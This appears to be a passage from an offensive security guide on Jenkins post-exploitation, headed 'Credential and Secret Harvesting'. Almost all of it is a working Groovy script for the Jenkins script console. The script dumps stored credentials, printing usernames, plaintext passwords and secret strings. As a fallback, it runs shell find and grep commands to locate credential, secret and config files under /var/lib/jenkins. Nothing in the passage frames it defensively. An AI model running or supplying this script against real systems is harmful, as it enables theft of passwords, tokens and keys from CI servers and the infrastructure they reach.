 #### Credential and Secret Harvesting
```groovy
// Jenkins credential and secret extraction
def harvestCredentials() {
    try {
        // Access Jenkins credential store
        def credentialsProvider = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]
        def credentials = credentialsProvider.getCredentials()
        
        println "[+] Jenkins Credential Store Analysis:"
        println "=" * 50
        
        credentials.each { cred ->
            println "Credential Type: ${cred.class.simpleName}"
            
            // Handle different credential types
            switch(cred.class.simpleName) {
                case 'UsernamePasswordCredentialsImpl':
                    println "  Username: ${cred.username}"
                    println "  Password: ${cred.password}"
                    break
                case 'StringCredentialsImpl':
                    println "  Secret: ${cred.secret}"
                    break
                case 'BasicSSHUserPrivateKey':
                    println "  Username: ${cred.username}"
                    println "  Private Key: [PRIVATE KEY PRESENT]"
                    break
                default:
                    println "  ID: ${cred.id}"
                    println "  Description: ${cred.description}"
            }
            println "  Scope: ${cred.scope}"
            println "-" * 30
        }
        
    } catch (Exception e) {
        println "Error accessing credentials: ${e.getMessage()}"
        
        // Alternative: File system credential search
        println "\n[+] Searching for credential files:"
        def searchCommands = [
            "find /var/lib/jenkins -name '*credential*' -type f",
            "find /var/lib/jenkins -name '*secret*' -type f",
            "find /var/lib/jenkins -name 'config.xml' -exec grep -l 'password\\|secret\\|key' {} \\;",
            "find /var/lib/jenkins/jobs -name 'config.xml' -exec grep -l 'credentialsId' {} \\;"
        ]
        
        searchCommands.each { cmd ->
            println "\nCommand: $cmd"
            def result = cmd.execute()
            result.waitFor()
            println result.text
        }
    }
}

harvestCredentials()
```
